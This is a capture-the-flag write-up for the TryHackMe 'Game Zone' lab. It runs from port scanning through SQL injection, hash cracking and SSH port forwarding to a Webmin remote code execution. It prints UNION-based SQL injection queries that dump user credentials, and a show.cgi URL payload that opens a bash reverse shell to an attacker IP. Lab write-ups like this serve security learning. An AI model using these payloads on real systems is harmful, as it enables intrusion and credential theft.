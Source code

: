 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Basic_Exploitation
contest_name: Basic Exploitation
problem_code: GAME_ZONE
problem_name: Game Zone
comments: false
tags: SQLi RCE
date: 2022-01-30
---
```


### A rust scan was use to conduct a speed scan on the IP and pipe the open ports to conduct a nmap scan. From what it shows, ports 22 and 80 are open

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/rustscan1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/rustscan2.png)

‎


### Upon visiting the site, it shows me a game zone web page which is also a login page

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/web1.png)

‎


### After attempting a basic SQL Injection, it logged me in

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/login1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/portal.png)

‎


### Knowing this site is vulnerable to SQLi, we are able to extract all the reviews. However these are not useful, so next we can attempt to extract something interesting in the database
### We can either do it manually or use SQLMAP

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli1.png)

‎


<h3 style="color:aqua;">‎[Method 1]: From what it looks like, there are 3 columns --> ID (Hidden), Title & Review. Thus we can craft the following syntax to list all table names from information_schema.tables </h3>

```
' AND FALSE UNION SELECT null, table_name, null FROM information_schema.tables;#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli2.png)

<p style="color:orange;">We see an interesting table called users</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli3.png)

‎


<h3 style="color:aqua;">‎[Method 1]: The next query is crafted to retrieve column names from the table "users".  From the result we can see that the credentials of users are stored </h3>

```
' AND FALSE UNION SELECT null, column_name, null FROM information_schema.columns WHERE table_name = 'users';#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli4.png)

‎


<h3 style="color:aqua;">‎[Method 1]: To list the creds, we can craft this simple SQL query and finally we got credentials of the user agent47 </h3>

```
' AND FALSE UNION SELECT null, username, pwd FROM users;#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli5.png)

‎


<h3 style="color:darkorchid;">‎[Method 2]: In order to use SQLMAP to obtain credentials, we first need to intercept the request using Burp Suite and save it into a file for it to be used by SQLMAP for authentication </h3>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/burpsuite.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/save.png)

‎


<h3 style="color:darkorchid;">‎[Method 2]: Next when we ran SQLMAP, we got credentials of the user agent47 </h3>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqlmap.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqlmap_crack.png)

‎


### We can determine this hash type by doing a lookup at online tools. It shows that this is a sha256 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/hash.png)

‎


### After saving the hash in a file, I used hashcat to crack the credential of user47

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/hashcat.png)

‎


### Using the cracked credentials, we are able to authenticate as user47 from SSH

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ssh.png)

‎


### When list all listening connections, we see that port 10000 is open

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/netstat.png)

<p style="color:orange;">When attempting to connect to it, we are getting connection refused. This could probably mean there is a firewall blocking our access to that port</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ncat1.png)

‎


### We would be able to bypass the firewall by using SSH Port Forward

<p style="color:orange;">Since we can have SSH access to the vulnerable server, we could use the following command to create a link to the server on by accessing 127.0.0.1:9000 on our side from serverIP:10000</p>

```
ssh -L 9000:127.0.0.1:10000 agent47@$IP -fN
```

<p style="color:orange;">By doing so, we now can access the service on port 9000 locally</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ncat2.png)

<p style="color:orange;">From a Nmap scan, it tells us it’s a web service - webmin</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/nmap.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/login2.png)

‎


### By using agent47 credentials, we are able to login to webmin

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/webmin.png)

‎


### Running a Searchsploit for this version shows us that it is vulnerable to RCE by running /file/show.cgi

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/searchsploit.png)

‎


### Even though we can use Metasploit to get a shell, I'll try and refrain from suing Metasploit because it will be better if we understand how the exploit works

<p style="color:orange;">After understanding how the exploit works,  we can use the following query</p> 

```/file/show.cgi/bin/<5 or more - random chars of alphabetical & numerical>|<command>|```

<p style="color:orange;">If I am not wrong, the random characters is used to make a unique file thus below will be my final URL syntax to get a reverse shell</p>
```
/file/show.cgi/bin/g6s7t|bash -c 'exec bash -i &>/dev/tcp/10.11.21.149/9999 <&1'|
```

<p style="color:orange;">Before running that I'll have to open a Ncat listener and only after executing the URL syntax, got me a shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/exploit.png)
